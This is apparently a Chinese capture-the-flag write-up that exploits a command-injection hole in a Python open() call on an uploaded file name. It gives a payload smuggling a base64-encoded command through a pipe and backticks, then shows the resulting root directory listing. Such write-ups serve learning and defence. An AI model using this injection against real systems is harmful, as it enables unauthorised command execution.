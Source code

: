 > 这里先介绍以一下**linux中反引号的作用**，凡是打上反引号的命令，首先将反引号内的命令执行一次，然后再将已经执行过的命令得到的结果再执行一次，就可以得到我们反引号的输出，比如我们输入命令：
>
> ```
> `echo cat hello.txt`
> ```
>
> ![](http://imgconvert.csdnimg.cn/aHR0cHM6Ly9pbWcyMDIwLmNuYmxvZ3MuY29tL2Jsb2cvMTM2MzQ3OC8yMDIwMDkvMTM2MzQ3OC0yMDIwMDkwNTA4NDUyMDEwOC0xNjMyMjQxOTM3LnBuZw?x-oss-process=image/format,png)
>
> **linux中|管道符的作用**
>
> | 管道符的作用是 把 管道符左边的的输出 当做右边命令后面待处理的结果
>
> 例如：
>
> ```
>  ls -lha ~ | more| grep a >haha.txt
> ```

在源码中我们可以发现有个open函数

```
 res = open(file, 'r').read()
```

存在命令执行漏洞![image7bb9f010bdf11bba.png](https://z4a.net/images/2022/06/01/image7bb9f010bdf11bba.png)

这里随便上传一个png文件之后会返回base64加密后的png文件名

![image22040242e923ce5c.png](https://z4a.net/images/2022/06/01/image22040242e923ce5c.png)

这里用到的是这个open函数，所以可以把shell写入图片然后加上管道符，之后再执行open函数就可执行shell命令。

首先先上传一个图片![imagee00f24ffd22e873c.png](https://z4a.net/images/2022/06/01/imagee00f24ffd22e873c.png)

然后输入图片base64加密的文件名查看一下，发现的确进行了base64加密![imagea40182e15362e93d.png](https://z4a.net/images/2022/06/01/imagea40182e15362e93d.png)

因为它把`/`给过滤了。，所以对命令进行base64加密之后再使用，同时最后要加上之前传的那个文件名。![image26b24c7c2b96d2df.png](https://z4a.net/images/2022/06/01/image26b24c7c2b96d2df.png)

```
file=| `echo bHMgLw==(ls /) | base64 -d` > 879550a80023144a9b58dcc288f3f4f3.png
```

这里使用管道符`|`引导后边的shell命令，使用反引号```，就是先进行反引号的shell的base64解密，然后把解密的命令输出,并将输出的结果重定向到上传好的图片。

这个时候再访问那个图片，可以看到已经写进去了，base64揭秘之后得到根目录下的文件![image397239883e30c71d.png](https://z4a.net/images/2022/06/01/image397239883e30c71d.png)

```
bin
boot
dev
etc
flag_28244
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
```